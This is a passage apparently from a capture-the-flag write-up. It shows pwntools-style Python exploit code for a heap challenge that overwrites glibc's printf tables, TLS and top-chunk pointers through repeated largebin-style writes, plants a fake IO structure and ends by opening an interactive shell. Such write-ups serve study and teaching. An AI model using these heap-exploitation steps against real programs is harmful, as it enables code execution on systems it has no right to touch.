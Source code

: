 ```python
delete(0x8A0)
new(0x1000)
edit(0x8B8,p64(__printf_arginfo_table-0x20))
delete(0xD30)
new(0x1000)


edit(0x898,p64(0x4B1))
edit(0xD48,p64(0x21))
edit(0xD68,p64(0x4A1))
edit(0x1208,p64(0x21))
edit(0x1228,p64(0x21))
delete(0x8A0)
new(0x1000)
edit(0x8B8,p64(__printf_function_table-0x20))
delete(0xD70)
new(0x1000)

edit(0x10F8,p64(_IO_cleanup))

edit(0x898,p64(0x4F1))
edit(0xD88,p64(0x21))
edit(0xDA8,p64(0x4E1))
edit(0x1288,p64(0x21))
edit(0x12A8,p64(0x21))
delete(0x8A0)
new(0x1000)
edit(0x8B8,p64(tls-0x20))
delete(0xDB0)
new(0x1000)

edit(0x898,p64(0x531))
edit(0xDC8,p64(0x21))
edit(0xDE8,p64(0x521))
edit(0x1308,p64(0x21))
edit(0x1328,p64(0x21))
delete(0x8A0)
new(0x1000)
edit(0x8B8,p64(top_chunk-0x20))
delete(0xDF0)
edit(0x450,fake_IO_struct)

#gdb.attach(r,'b _IO_flush_all_lockp')
new(0x1000)

r.interactive()
```

## Crypto
